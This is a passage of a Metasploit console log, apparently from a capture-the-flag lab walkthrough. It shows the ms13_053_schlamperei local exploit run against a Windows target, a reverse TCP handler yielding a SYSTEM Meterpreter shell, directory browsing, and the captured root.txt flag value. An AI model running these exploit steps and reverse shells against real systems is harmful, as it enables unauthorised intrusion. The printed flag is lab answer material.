 lhost => tun0
msf6 exploit(windows/local/ms13_053_schlamperei) > run

[-] Exploit failed: One or more options failed to validate: SESSION.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/ms13_053_schlamperei) > set session 3
session => 3
msf6 exploit(windows/local/ms13_053_schlamperei) > run

[*] Started reverse TCP handler on 10.10.16.134:4444 
[*] Launching notepad to host the exploit...
[+] Process 3676 launched.
[*] Reflectively injecting the exploit DLL into 3676...
[*] Injecting exploit into 3676...
[*] Found winlogon.exe with PID 476
[+] Everything seems to have worked, cross your fingers and wait for a SYSTEM shell
[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 4 opened (10.10.16.134:4444 -> 10.10.10.5:49193) at 2021-02-10 03:24:04 +0900

meterpreter > whoami
[-] Unknown command: whoami.
meterpreter > pwd
C:\Windows\system32
meterpreter > cd /
meterpreter > ls
[-] Error running command ls: NoMethodError undefined method `[]' for nil:NilClass
meterpreter > dir
[-] Error running command dir: NoMethodError undefined method `[]' for nil:NilClass
meterpreter > search user.txt
[-] You must specify a valid file glob to search for, e.g. >search -f *.doc
meterpreter > search -f user.txt
No files matching your search were found.
meterpreter > cd '\Users\Administrator\Desktop\'
meterpreter > dir
Listing: C:\Users\Administrator\Desktop
=======================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-03-18 08:16:53 +0900  desktop.ini
100444/r--r--r--  32    fil   2017-03-18 08:17:20 +0900  root.txt

meterpreter > cat root.txt 
e621a0b5041708797c4fc4728bc72b4bmeterpreter > cd '\Users\'
meterpreter > ls
Listing: C:\Users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   8192  dir   2017-03-18 08:16:43 +0900  Administrator
40777/rwxrwxrwx   0     dir   2009-07-14 13:53:55 +0900  All Users
40777/rwxrwxrwx   8192  dir   2017-03-18 08:06:26 +0900  Classic .NET AppPool
40555/r-xr-xr-x   8192  dir   2009-07-14 11:37:05 +0900  Default
40777/rwxrwxrwx   0     dir   2009-07-14 13:53:55 +0900  Default User
40555/r-xr-xr-x   4096  dir   2009-07-14 11:37:05 +0900  Public
40777/rwxrwxrwx   8192  dir   2017-03-17 23:17:37 +0900  babis
100666/rw-rw-rw-  174   fil   2009-07-14 13:41:57 +0900  desktop.ini
